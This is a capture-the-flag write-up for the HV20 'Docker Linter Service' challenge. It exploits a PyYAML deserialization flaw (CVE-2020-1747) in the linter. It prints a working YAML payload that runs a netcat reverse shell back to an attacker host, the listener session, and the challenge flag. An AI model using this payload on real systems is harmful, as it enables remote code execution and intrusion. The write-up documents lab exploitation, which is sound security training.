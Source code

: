 [← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)


# Day 19 / HV20.19 Docker Linter Service


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: The Compiler ([@the_compiler](https://twitter.com/the_compiler), 
                        <https://bruhin.software/>)
* Tags:   `#web-security` `#exploitation`
* Level:  Hard

Docker Linter is a useful web application ensuring that your Docker-related
files follow best practices. Unfortunately, there's a security issue in there...

### Requirements

This challenge requires a reverse shell. You can use the provided Web Shell or
the VPN to solve this challenge (see `RESOURCES` on top).

### Resources

* Web Shell v. 2
* Docker Linter Service
* Student VPN instructions



## Solution

Here is a screenshot of the _Docker Linter Service_ …

| ![](screenshot_docker_linter.png) |
|-----------------------------------|

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
As the name implies, different kind of _[Docker]_ files can be uploaded to the
web service in order to [lint] them, meaning statically check their validity.
Posting an arbitrary string like `ladida` instead of an actual _Docker_ file is
sufficient to get a list of the involved tools and libraries in the server …

[Docker]: https://en.wikipedia.org/wiki/Docker_(software)
[lint]: https://en.wikipedia.org/wiki/Lint_(software)

* `Dockerfile`
    * `hadolint`
    * `dockerfile_lint`
    * `dockerlint.js`

* `docker-compose.yml`
    * `Basic syntax check`
    * `yamllint`
    * `docker-compose`

* `.env files`
    * `dotenv-linter`

After a lot of trial and error attacking the python YAML implementation turned
out to be the right way. A [PoC (CVE-2020-1747)] about the attack/vulnerability
is available on the web.

[PoC (CVE-2020-1747)]: https://2130706433.net/blog/pyyaml/

The attack works by exploiting a deserialization vulnerability in the PyYAML
library which allows arbitrary code execution and thus including setting up a
reverse shell.

The payload is constructed according to the [script gist] available on the same
webpage as the PoC and a [cheat sheet kinda resource for reverse shells] …

[script gist]: https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1
[cheat sheet kinda resource for reverse shells]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('nc 10.13.0.6 4242 -e /bin/sh')"
```

| ![](screenshot_payload.png) |
|-----------------------------|

On the listening end there is a Linux VM connected via a VPN and waiting for
an incoming connection on port 4242. Due to the nature of the reverse shell, it
does not show shell prompts. But type echoing and printing to standard out work
just fine …

```sh
# nc -l -p 4242
echo ""; ls

app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates

cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```

--------------------------------------------------------------------------------

Flag: `HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`

[← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)
